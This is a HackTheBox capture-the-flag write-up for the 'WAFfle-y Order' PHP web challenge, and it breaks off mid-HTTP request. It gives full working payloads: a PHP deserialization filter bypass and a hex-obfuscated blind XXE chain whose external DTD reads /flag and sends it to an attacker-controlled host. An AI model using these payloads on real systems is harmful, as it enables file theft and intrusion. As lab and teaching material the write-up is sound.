





---
Category:
  - Web
Difficulty: Medium
Platform: HackTheBox
Status: 3. Complete
tags:
  - OAST
  - XXE-Injection
  - evasion
  - parsers-differential
  - php-deserialization
  - exploit-chain
---

# Introduction and setup

>[!quote]
>*Remember what's important in life: friends 🤝, WAFfles 🧇, work 💼. or 🧇 WAFfles. 🤝 friends. 💼 work. Doesn't matter. But work is third 🥉. This is why we launched our new WAFfle-y cute ordering system API for our beloved customers and friends! But remember, don't get all filled up on those regexes yet, we also offer Ice Scream 🍦!*

**WAFfle-y Order** is a medium-difficulty web challenge from **HackTheBox** that involves attacking a custom application where we can order some Waffles or Ice Cream.

For this challenge, we are given the application source code, a docker environment to reproduce locally the same server infrastructure, and a remote server to connect to get the flag.

```bash
┌──(kali㉿kali)-[~/…/HTB/Challenge/Web/web_waffley_order]
└─$ tree web_waffley_order/
web_waffley_order/
├── Dockerfile
├── build_docker.sh
├── challenge
│   ├── Router.php
│   ├── assets
│   │   ├── css
│   │   │   └── main.css
│   │   ├── favicon.ico
│   │   └── js
│   │       └── main.js
│   ├── controllers
│   │   └── OrderController.php
│   ├── index.php
│   ├── models
│   │   ├── UserModel.php
│   │   └── XmlParserModel.php
│   └── views
│       └── menu.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
└── flag
```

We can start building the docker environment while taking a look at the application:

```bash
┌──(kali㉿kali)-[~/…/HTB/Challenge/Web/web_waffley_order]
└─$ cat build_docker.sh
#!/bin/bash
docker build -t web_waffley_order .
docker run --name=web_waffley_order --rm -p1337:80 -it web_waffley_order

┌──(kali㉿kali)-[~/…/HTB/Challenge/Web/web_waffley_order]
└─$ chmod +x build_docker.sh
```


# Information Gathering

## The application at-a-glance 🔍

Here we can’t do much, we can only order some WAFfles or some Ice Cream and nothing more.



By looking at the request sent to the server, we can observe that it sends a JSON object containing our order and it also uses a serialized `PHPSESSID` to identify the user:

```bash
POST /api/order HTTP/1.1
Host: localhost:1337
Cookie: PHPSESSID=Tzo5OiJVc2VyTW9kZWwiOjE6e3M6ODoidXNlcm5hbWUiO3M6MTA6Imd1ZXN0XzYyNWQiO30%3D

{"table_num":"test","food":"WAFfles"}
```

```bash
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 18 Apr 2022 20:01:51 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.28
Content-Length: 102

{"status":"success","message":"Hello guest_625d, your WAFfles order has been submitted successfully."}
```

The content of `PHPSESSID` is the following:
```bash
$ echo 'Tzo5OiJVc2VyTW9kZWwiOjE6e3M6ODoidXNlcm5hbWUiO3M6MTA6Imd1ZXN0XzYyNWQiO30=' | base64 -d
O:9:"UserModel":1:{s:8:"username";s:10:"guest_625d";}
```

Usually, serialized data can be very dangerous, especially when they can be arbitrarily modified like in this case. Let’s keep it in mind for later.


## Source code review

Since the application doesn't offer many features, let's take a look at the code to better understand the internals of the program while we wait for docker to finish.

The `build_docker.sh` script, the `Dockerfile`, and the `/config` folder do not contain very useful information for this challenge. They just provide a bunch of configurations to correctly set up the environment: 

*Dockerfile*

```Dockerfile
FROM alpine:edge

# Setup usr
RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

# Install system packages
RUN apk add --no-cache --update supervisor nginx

# Install PHP dependencies
RUN apk add --no-cache --update php7-fpm php7-xml php7-simplexml php7-json

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php7/php-fpm.d/www.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

COPY flag /flag

# Setup permissions
RUN chown -R www:www /var/lib/nginx

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

*build_docker.sh*

```bash
#!/bin/bash
docker build -t web_waffley_order .
docker run --name=web_waffley_order --rm -p1337:80 -it web_waffley_order
```

The web application code instead is located under the `/challenge` folder.

`index.php` is the application entry point. Here we can see that some PHP controllers and models are included, then an XML file is read and processed by the `XmlParserModel` class, and then the PHPSESSID is checked and eventually set up. 

```php
<?php
spl_autoload_register(function ($name){
	if (preg_match('/Controller$/', $name))
	{
		$name = "controllers/${name}";
	}
	if (preg_match('/Model$/', $name))
	{
		$name = "models/${name}";
	}
	include_once "${name}.php";
});

new XmlParserModel(file_get_contents('.env'));

if (empty($_COOKIE['PHPSESSID']))
{
	$user = new UserModel;
	$user->username = substr(uniqid('guest_'), 0, 10);
	setcookie(
		'PHPSESSID', 
		base64_encode(serialize($user)), 
		time()+60*60*24, 
		'/'
	);
}

$router = new Router();

$router->new('GET', '/', fn($router) => $router->view('menu'));
$router->new('POST', '/api/order', 'OrderController@order');

die($router->match());
```

Then a bunch of routes is defined from the `Router` class contained inside `Router.php`, one of which is the one performing the user order through the `OrderController` class.

```php
<?php
function safe_object($serialized_data)
{
	$matches = [];
	$num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

	for ($i = 0; $i < $num_matches; $i++) {
		$methods = get_class_methods($matches[2][$i]);
		foreach ($methods as $method) {
			if (preg_match('/^__.*$/', $method) != 0) {
				die("Unsafe method: ${method}");
			}
		}
	}
}

class OrderController
{
	public function order($router)
	{
		$body = file_get_contents('php://input');
		$cookie = base64_decode($_COOKIE['PHPSESSID']);
		safe_object($cookie);
		$user = unserialize($cookie);

		if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
		{
			$order = json_decode($body);
			if (!$order->food) 
				return json_encode([
					'status' => 'danger',
					'message' => 'You need to select a food option first'
				]);
			if ($_ENV['debug'])
			{
				$date = date('d-m-Y G:i:s');
				file_put_contents('/tmp/orders.log', "[${date}] ${body} by {$user->username}\n", FILE_APPEND);
			}
			return json_encode([
				'status' => 'success',
				'message' => "Hello {$user->username}, your {$order->food} order has been submitted successfully."
			]);
		}
		else
		{
			return $router->abort(400);
		}
	}
}
```

Taking a closer look at that class we can see that it reads the `PHPSESSID` and then it tries to **unserialize** it. Between the two operations, however, the backend verifies which methods are available for every object using a very specific regex. 

```php
<?php
function safe_object($serialized_data)
{
	$matches = [];
	$num_matches = preg_match_all('/(^|;)O:\d+:"([^"]+)"/', $serialized_data, $matches);

	for ($i = 0; $i < $num_matches; $i++) {
		$methods = get_class_methods($matches[2][$i]);
		foreach ($methods as $method) {
			if (preg_match('/^__.*$/', $method) != 0) {
				die("Unsafe method: ${method}");
			}
		}
	}
}
...
```

If the regex matches some [PHP magic methods](https://www.php.net/manual/en/language.oop5.magic.php) - so the one starting with `__` - then the application returns an error, otherwise, it sets up the user object and then returns the message that pops out when submitting the order. 

The `OrderController` class also checks if the debug environment variable is set and if it’s true, it writes some logs.

```php
...
if ($_ENV['debug'])
{
	$date = date('d-m-Y G:i:s');
	file_put_contents('/tmp/orders.log', "[${date}] ${body} by {$user->username}\n", FILE_APPEND);
}
...
```

Ok, up to here the application seems very secure, however, we still need to take a look at the two classes used to instantiate the two objects `UserModel` and `XmlParserModel`.

`UserModel` looks very basic, it just contains the username property. 

```php
<?php
class UserModel
{
	public string $username;
}
```

`XmlParserModel` on the other hand appears very peculiar.

```php
<?php
class XmlParserModel
{
	private string $data;
	private array $env;

	public function __construct($data)
	{
		$this->data = $data;
	}

	public function __wakeup()
	{
		if (preg_match_all("/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im", $this->data))
		{
			die('Unsafe XML');
		}
		$env = @simplexml_load_string($this->data, 'SimpleXMLElement', LIBXML_NOENT);

		if (!$env) 
		{
			die('Malformed XML');
		}

		foreach ($env as $key => $value)
		{
			$_ENV[$key] = (string)$value;
		}
	}
}
```

The class implements two magic methods: 
- `__construct()`[^construct], which is invoked every time an object is created and simply assigns the passed data to the object property,
- and `__wakeup()`[^wakeup], which is invoked every time a script tries to call an object as a function or every time an `unserialize()` function is invoked on that object. This method verifies that the content of the data properties is a safe XML, then it converts the XML string into an object using `simplexml_load_string` and finally, it creates an environment variable for every key contained inside the XML.

[^construct]: https://www.php.net/manual/en/language.oop5.decon.php#object.construct
[^wakeup]: https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup

# Exploitation

By looking through the code I noticed different things that perhaps can be exploited or used during an exploitation chain: 

- `index.php` and `Router.php` both contain some `include` that maybe can be used to exploit a Path Traversal or a Local File Inclusion, 
- the `OrderController` class writes some logs that maybe can be used in combination with the LFI, 
- the same class also uses the [PHP Complex Syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex), that in some cases can lead to RCE, 
- and unserialize user-controllable data, which can potentially allow the injection of PHP Object to alter the program logic.

There are so many possibilities, but which is the correct one? 
Or even worse: is one of these paths the right one?

In this challenge, users can only control 4 data: the ordered food, the table number, the serialized cookie, and the XML file parsed by the application.

Searching where the ordered food is used didn’t highlight dangerous uses, so we can exclude this option. The same can be done with the table number, which even never appears within the code. 
The remaining option is to exploit the PHPSESSID cookie and try to inject some kind of PHP object.

## PHP Object Injection (PHP deserialization)

>[!bug] Arbitrary PHP object deserialization
>The application uses the PHPSESSID cookie to pass a PHP object to the server that will be then deserialized. Assigning to the PHPSESSID cookie other valid serialized objects, it is possible to deserialize arbitrary PHP objects and alter the program logic.

I wrote a simple PHP script that serializes two custom objects, one using the `UserModel` class and one using the `XmlParserModel`. 

*test-serialize.php*
```php
<?php
class XmlParserModel {
	public string $data;
	public array $env = [];
	public string $username;

	public function __construct($data) {
		$this->data = $data;
	}
}

class UserModel
{
	public string $username;
}

echo "--- User ---\n";
$user = new UserModel();
$user->username = "0xbro";
print_r($user);
echo base64_encode(serialize($user));

echo "\n\n--- XML ---\n";
$xml = new XmlParserModel(file_get_contents('.env'));
print_r($xml);
echo base64_encode(serialize($xml));
```

As expected, providing the first serialized object to the backend nothing happened. Instead, providing an `XmlParserModel` object caused the server to fail, telling us that we provided an object having an unsafe method.

```http
HTTP/1.1 200 OK
...

Unsafe method: __construct
```

We don’t get a successful response back because the serialized object contains unsafe methods, but the fact that the server responds indicates that the request was successful and the server tries to deserialize the arbitrary object.

## safe_object WAF bypass

>[!bug] `safe_object` WAF bypass using a parser differential
>The regex is misconfigured and do not consider custom serialized objects using the `C:` syntax. Using those objects it is possible to bypass the regex and deserialize dangerous objects.

After some research I found [this wonderful writeup](https://github.com/MegadodoPublications/exploits/blob/master/composr.md) from MegadodoPubblications talking about a Remote Code Execution in Composr. Although the target is different than ours, going through the article I found a really interesting thing. The author had to bypass the same regex we’re facing.

*validation function*
```php
function secure_serialized_data(&$serialized_data)
{
    $matches = array();
    $num_matches = preg_match_all('#(^|;)O:\d+:"([^"]+)"#', $serialized_data, $matches);
    for ($i = 0; $i < $num_matches; $i++) {

        $methods = get_class_methods($matches[2][$i]);

        foreach ($methods as $method) {
            if (preg_match('#^__.*$#', $method) != 0) {
                $serialized_data = serialize(null);
                return;
            }
        }
    }
}
```

The writeup shows **three different bypasses**: 
1. The first one uses a **plus sign to bypass the regex**, however, starting from PHP 7.2 it doesn’t work anymore. For this challenge we are using PHP 7, so we can scrap this first option.
2. The second one exploits a **parser differential between the regex and the PHP serialized object**, tricking the regex into thinking that `;O:10` is the class name of the object and so hiding “HelloWorld” from the regex. 
3. Finally, the third one uses a pretty **unknown and deprecated feature** that allows the creation of custom serialized objects starting with `C:` instead of the classic syntax.

>[!info] Info
>Traditional PHP basic types variables follow standard rules:
>- null values become `N;` 
>- booleans become `b:` and the value of the boolean integers become `i:number;` 
>- strings become `s:` the number of characters `:` the string 
>- objects become `O:` the length of the object name `:` object name `:` object size and then all the properties inside brackets 
>- arrays become `a:` the length of the array and then all the `key;value` definitions inside brackets 
> 
>However, by implementing the `Serializable` interface, it is possible to serialize data using the `C:` format.

I started using the same code provided in the writeup [^Spl], but it didn’t work as expected. It returned a different serialized object that didn’t use either the `C:` format or the `;:` trick to bypass the regex, but instead was a pretty standard serialized object. 

Because the official PHP documentation [^PHPinternals] says that inside serialized object created using the `Serializable` interface there could be any payload between braces, I decided to create a script that simply injects my serialized object within the example provided in the write-up.

[^Spl]: https://github.com/MegadodoPublications/exploits/blob/master/composr.md#the-moderately-cool-way-that-works
[^PHPInternals]: https://www.phpinternalsbook.com/php5/classes_objects/serialization.html

The PHP code declares an `XmlParserModel` class equal to the application’s one, then it creates the object reading our previous XML payload, serializes it, calculates the corresponding length, and finally places it inside the “container” shown on GitHub.

*c_serialize.php*

```php
<?php
class XmlParserModel {
	public string $data;
	public array $env;
	public string $username;

	public function __construct($data) {
		$this->data = $data;
	}
}

$xml = new XmlParserModel(file_get_contents('.env'));
$xml->username = 'h4ck3d';
$payload = serialize($xml);

$l = 11 + strlen($payload );
echo 'PHPSESSID='.base64_encode('C:19:"SplDoublyLinkedList":' . $l . ':{i:0;:' . $payload . ':i:42;}');
```

Testing the result on regex101 we can see that this time the regex does not match anymore.

```php
C:19:"SplDoublyLinkedList":112:{i:0;:O:14:"XmlParserModel":2:{s:4:"data";s:28:"<env><debug>1</debug></env>";s:8:"username";s:6:"h4ck3d";}:i:42;}
```



## XML External Entity Injection

We know that we can unserialize arbitrary data, but the application does not contain dangerous functions that could allow code execution. What we can do now?

Because the only interesting class we can use is the `XmlParserModel`, let’s start analyzing every single line of code.

The regex is constructed in a way that matches any possible XML External Entity attack containing the `SYSTEM` o `PUBLIC` keyword. This means that code execution can’t be achieved without bypassing this regex, but **why did developers implement this rule?** Probably they were worried that XXE Injection could be exploited, but why there is such control? Where is the flaw?

>[!bug] `simplexml_load_string` called using dangerous parameters
>`simplexml_load_string` is called using a dangerous parameter that enables entity substitution, facilitating XML External Entity attacks.

We potentially have a deserialization vulnerability that may allow us to unserialize an `XmlParserModel` object vulnerable to XXE. Let’s try it out!

I created a basic XML containing an XML entity that overrides the debug key to any value. 

*.env*
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe "asd"> ]>
<env>
  <debug>0</debug>
  <debug>&xxe;</debug>
</env>
```

In this way we can verify if it works, using the creation of the log file in `/tmp` as a reference. If the file is created, it means that the entity works, otherwise, it means that the debug value is not overwritten and therefore the code block is not executed.

First, we have to ensure that the log file does not exist, then we can use the same PHP script used before (*test-serialize.php*) to generate our cookie and finally we can send it to the server.

We can notice that the file was created, meaning that we can use entities and external entities in our exploitation chain.

```bash
# cat /tmp/orders.log
[07-04-2023] {"table_num":"1337","food":"WAFfles"} by 0xbro
```

Unfortunately, the data contained in our XML is not reflected anywhere in the application. This means that we cannot exfiltrate data by reading it through the app, but we must necessarily use [OAST](https://portswigger.net/burp/application-security-testing/oast) techniques. Using external entities we can force the web application to perform an **HTTP request to our server**, sending us any data we extracted using other entities.

To test it, we can use the same payload as before (*test-serialize.php*), this time implementing an external entity called “blind” to try to contact our server.

*.env (blind)*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [ 
<!ENTITY blind SYSTEM "http://192.168.1.199/test.txt">
]>
 <env>
  <debug>&blind;</debug>
 </env>
```

```bash
$ sudo python3 -m http.server 80
...
172.16.0.2 - - [07/Apr/2023 17:42:19] "GET /test.txt HTTP/1.0" 404 -
```

We received an HTTP request. This means that we can use external entities to send and retrieve data.

To concatenate multiple entities inside the Document Type Definition we can use [parameter entities](https://www.w3resource.com/xml/parameter-entities.php), special XML entities that can only be referenced elsewhere within the DTD. They use the “%” character before their name but they can be referenced like traditional XML entities. We can place the malicious payload inside an external DTD and then download it using a simple parameter entity.

 I created an external DTD named `test.dtd` containing the malicious payload and I reference it inside the `.env` XML file. 

*test.dtd*

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'http://192.168.1.199/?x=%file;'>">
%eval;
```

*.env (exfiltrate-ext-dtd)*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [ 
<!ENTITY % ext SYSTEM "http://192.168.1.199/test.dtd">
%ext;
%exf;
]>
<env>
<debug>1</debug>
</env>
```

In this way, the application should download the external file, replace the various entity with the corresponding values and finally send to my server a request containing the value of the flag, encoded in base64.

Disabling the `preg_match_all`  filter, it works. 

```bash
$ sudo python3 -m http.server 80
...
172.16.0.2 - - [07/Apr/2023 17:42:19] "GET /test.dtd HTTP/1.0" 200 -
172.16.0.2 - - [07/Apr/2023 17:42:19] "GET /?x=fake-flag-for-testing HTTP/1.0" 200 -
```

Now we have to find a way to bypass this second regex preventing us to inject malicious external entities.

## preg_match_all WAF bypass

Using a site like regex101 we can analyze the regex in detail and see if it matches our payload.



Unfortunately, it does, but as we saw from the [Portswigger site](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings) and also from [this other post](https://github.com/Ambrotd/XXE-Notes), we can use **entities inside XML strings** to try to find a workaround for restricted XXE.

>[!bug] `preg_match_all` WAF bypass using a parser differential
>The regex is misconfigured and do not consider entities. Using Hex entities it is possible to bypass the regex, include dangerous external entities and exploit the XXE Injection vulnerability.

To bypass this regex, so, we can implement another XML parameter entity, this time simply containing our encoded payload.

*.env (obfuscated)*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [ 
<!ENTITY % cont "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x65;&#x78;&#x74;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x39;&#x32;&#x2e;&#x31;&#x36;&#x38;&#x2e;&#x31;&#x35;&#x37;&#x2e;&#x31;&#x32;&#x38;&#x2f;&#x74;&#x65;&#x73;&#x74;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x3e;">
%cont;
%ext;
%exf;
]>
<env>
  <debug>1</debug>
</env>
```

As we can see, the regex does not match anymore, while the exploit is still working.




## Final chain

*.env*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [ 
<!ENTITY % cont "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x65;&#x78;&#x74;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2d;&#x75;&#x72;&#x6c;&#x2f;&#x74;&#x65;&#x73;&#x74;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x3e;">
%cont;
%ext;
%exf;
]>
<env>
  <debug>1</debug>
</env>
```

>The obfuscated line is `<!ENTITY % ext SYSTEM "http://ngrok-url/test.dtd">`


*test.dtd*

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % eval "<!ENTITY &#x25; exf SYSTEM 'http://ngrok-url/?x=%file;'>">
%eval;
```

*Resulting `XmlParserModel` object*

```bash
PHPSESSID=QzoxOToiU3BsRG91Ymx5TGlua2VkTGlzdCI6NTA0OntpOjA7Ok86MTQ6IlhtbFBhcnNlck1vZGVsIjoyOntzOjQ6ImRhdGEiO3M6NDE5OiI8IS0tP3htbCB2ZXJzaW9uPSIxLjAiID8tLT4KPCFET0NUWVBFIGZvbyBbIAo8IUVOVElUWSAlIGNvbnQgIiYjeDNjOyYjeDIxOyYjeDQ1OyYjeDRlOyYjeDU0OyYjeDQ5OyYjeDU0OyYjeDU5OyYjeDIwOyYjeDI1OyYjeDIwOyYjeDY1OyYjeDc4OyYjeDc0OyYjeDIwOyYjeDUzOyYjeDU5OyYjeDUzOyYjeDU0OyYjeDQ1OyYjeDRkOyYjeDIwOyYjeDIyOyYjeDY4OyYjeDc0OyYjeDc0OyYjeDcwOyYjeDNhOyYjeDJmOyYjeDJmOyYjeDZlOyYjeDY3OyYjeDcyOyYjeDZmOyYjeDZiOyYjeDJkOyYjeDc1OyYjeDcyOyYjeDZjOyYjeDJmOyYjeDc0OyYjeDY1OyYjeDczOyYjeDc0OyYjeDJlOyYjeDY0OyYjeDc0OyYjeDY0OyYjeDIyOyYjeDNlOyI+CiVjb250OwolZXh0OwolZXhmOwpdPgo8ZW52PgogIDxkZWJ1Zz4xPC9kZWJ1Zz4KPC9lbnY+CiI7czo4OiJ1c2VybmFtZSI7czo2OiJoNGNrM2QiO306aTo0Mjt9

echo 'QzoxOToiU3BsRG91Ymx5TGlua2VkTGlzdCI6NTA0OntpOjA7Ok86MTQ6IlhtbFBhcnNlck1vZGVsIjoyOntzOjQ6ImRhdGEiO3M6NDE5OiI8IS0tP3htbCB2ZXJzaW9uPSIxLjAiID8tLT4KPCFET0NUWVBFIGZvbyBbIAo8IUVOVElUWSAlIGNvbnQgIiYjeDNjOyYjeDIxOyYjeDQ1OyYjeDRlOyYjeDU0OyYjeDQ5OyYjeDU0OyYjeDU5OyYjeDIwOyYjeDI1OyYjeDIwOyYjeDY1OyYjeDc4OyYjeDc0OyYjeDIwOyYjeDUzOyYjeDU5OyYjeDUzOyYjeDU0OyYjeDQ1OyYjeDRkOyYjeDIwOyYjeDIyOyYjeDY4OyYjeDc0OyYjeDc0OyYjeDcwOyYjeDNhOyYjeDJmOyYjeDJmOyYjeDZlOyYjeDY3OyYjeDcyOyYjeDZmOyYjeDZiOyYjeDJkOyYjeDc1OyYjeDcyOyYjeDZjOyYjeDJmOyYjeDc0OyYjeDY1OyYjeDczOyYjeDc0OyYjeDJlOyYjeDY0OyYjeDc0OyYjeDY0OyYjeDIyOyYjeDNlOyI+CiVjb250OwolZXh0OwolZXhmOwpdPgo8ZW52PgogIDxkZWJ1Zz4xPC9kZWJ1Zz4KPC9lbnY+CiI7czo4OiJ1c2VybmFtZSI7czo2OiJoNGNrM2QiO306aTo0Mjt9' | base64 -d
C:19:"SplDoublyLinkedList":504:{i:0;:O:14:"XmlParserModel":2:{s:4:"data";s:419:"<!--?xml version="1.0" ?-->
<!DOCTYPE foo [ 
<!ENTITY % cont "&#x3c;&#x21;&#x45;&#x4e;&#x54;&#x49;&#x54;&#x59;&#x20;&#x25;&#x20;&#x65;&#x78;&#x74;&#x20;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4d;&#x20;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x6e;&#x67;&#x72;&#x6f;&#x6b;&#x2d;&#x75;&#x72;&#x6c;&#x2f;&#x74;&#x65;&#x73;&#x74;&#x2e;&#x64;&#x74;&#x64;&#x22;&#x3e;">
%cont;
%ext;
%exf;
]>
<env>
  <debug>1</debug>
</env>
";s:8:"username";s:6:"h4ck3d";}:i:42;}
```

HTTP request:

```
POST /api/order HTTP/1.1
Host: 157.245.46.51:30974
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 18
Connection: close
Cookie: PHPSESSID=<@base64>C:19:"SplDoublyLinkedList":504:{i:0;:O:14:"XmlParserModel":2:{s:4:"data";s:419:"<!--?xml version="1.0" ?-->
<!DOCTYPE foo [ 
